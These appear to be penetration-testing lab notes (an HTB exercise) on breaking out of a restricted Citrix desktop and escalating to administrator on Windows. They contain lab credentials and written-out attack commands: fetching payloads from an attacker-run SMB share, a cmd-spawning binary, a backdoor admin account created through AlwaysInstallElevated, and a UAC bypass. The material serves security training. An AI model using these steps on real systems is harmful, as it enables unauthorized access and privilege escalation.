

# Citrix breakout

There are many techniques which can be used for breaking out of a Citrix environment.

Accessing to a citrix environment:
1. Access to a url of the citrix env. In the HTB example (`http://humongousretail.com/remote/`) and enter with creds:

```citrixcredentials
Username: pmorgan
Password: Summer1Summer!
  Domain: htb.local
```

 After login, click on the `Default Desktop` to obtain the Citrix `launch.ica` file in order to connect to the restricted environment.
Double click to open it.

## Bypassing Path Restrictions

### Abusing dialog boxes

When we attempt to visit `C:\Users` using File Explorer, we find it is restricted and results in an error.

Numerous desktop applications deployed via Citrix are equipped with functionalities that enable them to interact with files on the operating system. Features like Save, Save As, Open, Load, Browse, Import, Export, Help, Search, Scan, and Print, usually provide an attacker with an opportunity to invoke a Windows dialog box. There are multiple ways to open dialog box in windows using tools such as Paint, Notepad, Wordpad, etc.

Run `Paint` from start menu and click on `File > Open` to open the Dialog Box.

With the windows dialog box open for paint, we can enter the [UNC](https://learn.microsoft.com/en-us/dotnet/standard/io/file-path-formats#unc-paths) path `\\127.0.0.1\c$\users\pmorgan` under the File name field, with File-Type set to `All Files` and upon hitting enter we gain access to the desired directory.



### Accessing SMB share from restricted environment

```
# Entering to the windows citrix env, to return to Ubuntu use CTRL-Tab
# In ubuntu open a terminal
sudo su
cd /home/htb-student/Tools

```

Start a SMB server from the Ubuntu machine using Impacket's `smbserver.py` script.

```shell-session
smbserver.py -smb2support share $(pwd)
```

Back in the Citrix environment, initiate the "Paint" application via the start menu.

Proceed to navigate to the "File" menu and select "Open", thereby prompting the Dialog Box to appear.

Within this Windows dialog box associated with Paint, input the UNC path as `\\10.13.38.95\share` into the designated "File name" field.

This is a file that we have hosted there: pwn.exe. This binary is the compiled binary from pwn.c:

```c
#include <stdlib.h>
int main() {
  system("C:\\Windows\\System32\\cmd.exe");
}
```

We can then use the obtained cmd access to copy files from SMB share to pmorgans Desktop directory. Now we can:

```
powershell -ep bypass
cd c:\Users\pmorgan\Desktop
xcopy \\10.13.38.95\share\Bypass-UAC.ps1
xcopy \\10.13.38.95\share\PowerUp.ps1
xcopy \\10.13.38.95\share\pwn.exe
```

Even though without downloading these files, we could right-click the executable and get a cmd terminal. 

Once we access to the terminal, we can jump to Escalating privileges.

### Alternate Explorer

In cases where strict restrictions are imposed on File Explorer, alternative File System Editors like `Q-Dir` or `Explorer++` can be employed as a workaround.

[Explorer++](https://explorerplusplus.com/) is highly recommended and frequently used in such situations due to its speed, user-friendly interface, and portability.


### Modify existing shortcut file

Unauthorized access to folder paths can also be achieved by modifying existing Windows shortcuts and setting a desired executable's path in the `Target` field.
1. `Right-click` the desired shortcut.
2. Select `Properties`.
3. Within the `Target` field, modify the path to the intended folder for access.
4. Execute the Shortcut and cmd will be spawned

In cases where an existing shortcut file is unavailable, there are alternative methods to consider. One option is to transfer an existing shortcut file using an SMB server.

## Alternate Registry Editors

Similarly when the default Registry Editor is blocked by group policy, alternative Registry editors can be employed to bypass the standard group policy restrictions. [Simpleregedit](https://sourceforge.net/projects/simpregedit/), [Uberregedit](https://sourceforge.net/projects/uberregedit/) and [SmallRegistryEditor](https://sourceforge.net/projects/sre/) are examples of such GUI tools that facilitate editing the Windows registry without being affected by the blocking imposed by group policy.


## Script Execution

When script extensions such as `.bat`, `.vbs`, or `.ps` are configured to automatically execute their code using their respective interpreters, it opens the possibility of dropping a script that can serve as an interactive console or facilitate the download and launch of various third-party applications which results into bypass of restrictions in place.

1. Create a new text file and name it "evil.bat".
2. Open "evil.bat" with a text editor such as Notepad.
3. Input the command "cmd" into the file.
4. Save the file.

## Escalating Privileges

Once access to the command prompt is established, it's possible to search for vulnerabilities in a system more easily. For instance, tools like [Winpeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS) and [PowerUp](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerUp/PowerUp.ps1) can also be employed to identify potential security issues and vulnerabilities within the operating system.

Using `PowerUp.ps1`, we find that [Always Install Elevated](https://learn.microsoft.com/en-us/windows/win32/msi/alwaysinstallelevated) key is present and set.

We can also validate this using the Command Prompt by querying the corresponding registry keys:

```cmd-session
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```


Once more, we can make use of PowerUp, using it's `Write-UserAddMSI` function. This function facilitates the creation of an `.msi` file directly on the desktop.

```powershell-session
 Import-Module .\PowerUp.ps1
 Write-UserAddMSI
```

Output:

```powershell-session
Output Path
-----------
UserAdd.msi
```

Now we can execute `UserAdd.msi` and create a new user `backdoor:password123.` under Administrators group.

And:

```cmd-session
runas /user:backdoor cmd
```

### Bypassing UAC

Numerous [UAC bypass](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) scripts are available, designed to assist in circumventing the active User Account Control (UAC) mechanism. These scripts offer methods to navigate past UAC restrictions and gain elevated privileges.

```cmd-session
cd C:\Users\Administrator
```

Output:

```cmd-session
Access is denied.
```

Numerous [UAC bypass](https://github.com/FuzzySecurity/PowerShell-Suite/tree/master/Bypass-UAC) scripts are available, designed to assist in circumventing the active User Account Control (UAC) mechanism. These scripts offer methods to navigate past UAC restrictions and gain elevated privileges.

We will use [Bypass-UAC.ps1](files/Bypass-UAC.ps1) from https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Bypass-UAC/Bypass-UAC.ps1:

```powershell-session
Import-Module .\Bypass-UAC.ps1
Bypass-UAC -Method UacMethodSysprep
```


Following a successful UAC bypass, a new powershell windows will be opened with higher privileges and we can confirm it by utilizing the command `whoami /all` or `whoami /priv`. This command provides a comprehensive view of the current user's privileges. And we can now access the Administrator directory.


## Additional resources worth checking:

- [Breaking out of Citrix and other Restricted Desktop environments](https://www.pentestpartners.com/security-blog/breaking-out-of-citrix-and-other-restricted-desktop-environments/)
- [Breaking out of Windows Environments](https://node-security.com/posts/breaking-out-of-windows-environments/)